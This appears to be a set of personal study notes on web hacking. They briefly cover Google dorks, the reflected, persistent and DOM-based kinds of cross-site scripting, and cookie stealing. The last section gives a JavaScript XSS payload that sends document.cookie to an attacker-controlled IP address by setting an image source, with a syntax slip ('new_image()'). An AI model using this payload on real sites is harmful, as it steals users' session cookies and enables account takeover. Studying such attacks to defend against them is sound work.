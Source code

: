 
## Google Hacking
Use Google's advanced query features - Google dorks

![img5.png](../../_resources/4597193c62104674a01c585d8fe822b9.png)

Check the official documentation

## Cross Site Scripting
When web app uses unfiltered input to build output content
* let's attacker control output HTML and Javascript code

Attacks include stealing session cookies, buyi g things without consent and more

Types 
1. Reflected - Payload in the input/request given
2. Persistent - Payload sent to vulnerable web server and stored
3. DOM based

Cookie Stealing with XSS

![Screenshot_20210721-233103_Chrome.jpg](../../_resources/78061d2a50244ca78ec143d0cc8ebaa6.jpg)
```
var i = new_image();
i.src = "http://192.168.99.1/get.php?q="+document.cookie;
```
